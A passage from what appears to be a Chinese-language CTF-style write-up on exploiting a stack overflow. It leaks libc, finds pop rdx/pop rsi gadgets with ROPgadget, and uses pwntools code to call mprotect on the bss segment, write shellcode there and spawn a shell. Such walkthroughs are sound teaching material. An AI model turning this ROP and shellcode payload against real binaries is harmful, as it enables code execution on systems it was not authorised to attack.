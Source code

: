 ```python
pause()
```
这样就能算出libc的偏移地址

```shell
[+] libc -> 0x7f0895c59000
```

接下来就可以设置data的权限了

而我们如果要执行mprotect就需要把第三个参数写为7，即

**mprotect(0x600000,0x1000,7);**

mprotect的第一个参数标识要写的内存页的首地址。这里是以页为单位访问。一页是４kb也就是0x1000字节所以mprotect的第一个参数必须是0x1000的倍数。第二个参数标识要设置的权限的地址的范围。这个多少都无所谓，不过需要把bss段包含进去。 



我们这个elf文件中并没有pop rbx的gadget

![1541646188733](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1541646188733.png)

只能控制rdi，rsi，r15.

所以如果想控制rdx的话就需要一些技巧了

我们这里有两种方法，第一种是通过libc中的gadget

 

1.ROPgadget --binary  libc-2.19.so --only 'pop|ret'|grep 'rdx'

得到了pop rdx|ret的地址，然后用这个gadget来调用第三个参数

同理获取rsi的gadget。

```
0x0000000000001b8e : pop rdx ; ret
```

```
0x0000000000024885 : pop rsi ; ret
```

然后payload

```python
prsi = libc.address + 0x24885
prdx = libc.address + 0x1b8e
mprotect = flat(cyclic(0x80 + 8), prdi, 0x00600000, prsi, 0x1000, prdx, 7, libc.sym['mprotect'], elf.sym['_start'])
print mprotect
io.sendafter("Input:\n", mprotect)
pause()
```

最后我们写到bss段里

```python
read = flat(cyclic(0x80 + 8), prdi, 0, prsi, elf.bss() , prdx, 0x100, elf.plt['read'], elf.bss() )
io.sendafter("Input:\n", read)
io.send(asm(shellcraft.sh()))
io.interactive()
```
